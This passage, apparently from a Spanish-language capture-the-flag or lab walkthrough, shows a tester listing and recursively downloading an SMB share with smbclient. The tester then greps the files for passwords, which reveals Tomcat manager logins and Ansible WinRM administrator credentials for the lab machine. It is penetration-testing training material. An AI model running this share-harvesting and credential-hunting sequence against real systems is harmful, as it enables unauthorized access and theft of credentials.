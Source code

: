 Podemos observar que el directorio `Development` es un directorio al que podemos acceder. Para acceder podemos usar `smbclient`

```python
❯ smbclient \\\\10.10.11.222\\Development
```

![20240307173434.png](20240307173434.png)

Para descargar el contenido podemos hacer lo siguiente:

```python
❯ smbclient \\\\10.10.11.222\\Development -c "recurse; lcd Development; prompt; mget *"
```

En los archivos que tenemos podemos encontrar ciertas contraseñas que pueda que nos sirva.

```python
❯ grep -r "password" .
.
.
.
./Automation/Ansible/PWM/README.md:- pwm_admin_password: pwm admin password, 'password' by default.
./Automation/Ansible/PWM/templates/tomcat-users.xml.j2:<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
./Automation/Ansible/PWM/templates/tomcat-users.xml.j2:<user username="robot" password="T0mc@tR00t" roles="manager-script"/>
.
.
.
```

En los archivos que descargamos podemos encontrar que `Automation/Ansible/PWM/ansible_inventory/ansible_invetory` en donde encontraremos algunas credenciales

```python
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore
```

Según que vamos viendo cada uno de los archivos de lo que descargamos podremos ver ciertas credenciales
